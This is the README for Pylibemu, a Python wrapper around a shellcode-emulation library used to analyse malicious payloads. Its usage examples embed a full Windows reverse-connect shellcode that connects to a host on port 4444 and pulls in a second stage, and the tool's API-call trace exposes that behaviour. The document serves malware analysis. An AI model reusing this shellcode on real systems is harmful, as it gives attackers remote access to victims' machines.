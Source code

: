 
## Pylibemu

Pylibemu is a wrapper for the Libemu library (https://github.com/buffer/libemu).


## Requirements

- Python 2.5 or later
- Libemu


## Installation

To install Pylibemu, just execute:

$ sudo pip install pylibemu

or alternatively

$ python setup.py build
$ sudo python setup.py install


## Usage


	buffer@alnitak ~ $ python
	Python 2.6.6 (r266:84292, Feb 26 2011, 12:20:05) 
	[GCC 4.4.4] on linux2
	Type "help", "copyright", "credits" or "license" for more information.
	>>> import pylibemu
	>>> shellcode  = b"\xfc\x6a\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d"
	>>> shellcode += b"\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34"
	>>> shellcode += b"\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0"
	>>> shellcode += b"\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9"
	>>> shellcode += b"\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c"
	>>> shellcode += b"\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c"
	>>> shellcode += b"\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32"
	>>> shellcode += b"\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53"
	>>> shellcode += b"\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02"
	>>> shellcode += b"\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6"
	>>> shellcode += b"\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3"
	>>> shellcode += b"\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50"
	>>> shellcode += b"\x53\x57\x53\x66\xb9\xc0\x38\xff\xe6"
	>>> emulator = pylibemu.Emulator()
	>>> offset = emulator.shellcode_getpc_test(shellcode)
	>>> offset
	4
	>>> emulator.prepare(shellcode, offset)
	>>> emulator.test()
	0
	>>> print emulator.emu_profile_output
	HMODULE LoadLibraryA (
     	LPCTSTR lpFileName = 0x0012fe90 => 
           	= "ws2_32";
	) = 0x71a10000;
	int WSAStartup (
     	WORD wVersionRequested = 2;
     	LPWSADATA lpWSAData = 1244272;
	) =  0;
	SOCKET WSASocket (
     	int af = 2;
     	int type = 1;
     	int protocol = 0;
     	LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
     	GROUP g = 0;
     	DWORD dwFlags = 0;
	) =  66;
	int connect (
     	SOCKET s = 66;
     	struct sockaddr_in * name = 0x0012fe88 => 
         	struct   = {
            	short sin_family = 2;
             	unsigned short sin_port = 23569 (port=4444);
             	struct in_addr sin_addr = {
                unsigned long s_addr = 339060928 (host=192.168.53.20);
             };
             char sin_zero = "       ";
         };
     	int namelen = 16;
	) =  0;
	int recv (
     	SOCKET s = 66;
     	char * buf = 0x0012fe88 => 
        	 none;
     	int len = 3072;
     	int flags = 0;
	) =  3072;

	>>> emulator.emu_profile_truncated
	False


The new Emulator method 'run' was introduced in Pylibemu 0.1.3  which allows not to 
worry about details. Moreover the new Emulator attribute `offset' allows to get such
information if needed. 
 

	>>> emulator = pylibemu.Emulator()
	>>> emulator.run(shellcode)
	0
	>>> emulator.offset
	4
	>>> print emulator.emu_profile_output
	HMODULE LoadLibraryA (
    	 LPCTSTR = 0x01a3f990 => 
           	= "ws2_32";
	) =  1906376704;
	int WSAStartup (
     	WORD wVersionRequested = 2;
     	LPWSADATA lpWSAData = 1244272;
	) =  0;
	SOCKET WSASocket (
     	int af = 2;
     	int type = 1;
     	int protocol = 0;
     	LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
     	GROUP g = 0;
     	DWORD dwFlags = 0;
	) =  66;
	int connect (
     	SOCKET s = 66;
     	struct sockaddr_in * name = 0x0012fe88 => 
        	struct   = {
            	short sin_family = 2;
             	unsigned short sin_port = 23569 (port=4444);
             	struct in_addr sin_addr = {
                unsigned long s_addr = 339060928 (host=192.168.53.20);
             };
             char sin_zero = "       ";
         };
     int namelen = 16;
	) =  0;
	int recv (
     	SOCKET s = 66;
     	char * = 0x01a40870 => 
         	none;
     	int len = 3072;
     	int flags = 0;
	) =  3072;

	>>> emulator.emu_profile_truncated
	False


The Emulator accepts the optional parameter 'output_size' which defines how much memory 
will be reserved for storing the emulation profile dump. By default, its size is 1MB but 
it be can changed in two possible ways

	>>> emulator = pylibemu.Emulator(1024)

	>>> emulator = pylibemu.Emulator()
	>>> emulator.set_output_size(1024)

If the reserved memory is not enough to contain the entire dump, the dump will be truncated 
and the Emulator attribute 'emu_profile_truncated' will be set to True. This approach is 
needed in order not to penalize performances while analyzing some shellcodes which may produce 
several MBs dumps (such as the Metasploit windows/download_exec). If the entire dump is needed 
a really simple approach could be to check the `emu_profile_truncated' attribute after the 
shellcode emulation test, increase the reserved memory through the Emulator 'set_output_size' 
method and subsequently run the shellcode emulation test again as shown above.


## License information

Copyright (C) 2011-2016 Angelo Dell'Aera <buffer@antifork.org>

License: GNU General Public License, version 2 or later; see LICENSE.txt
         included in this archive for details.

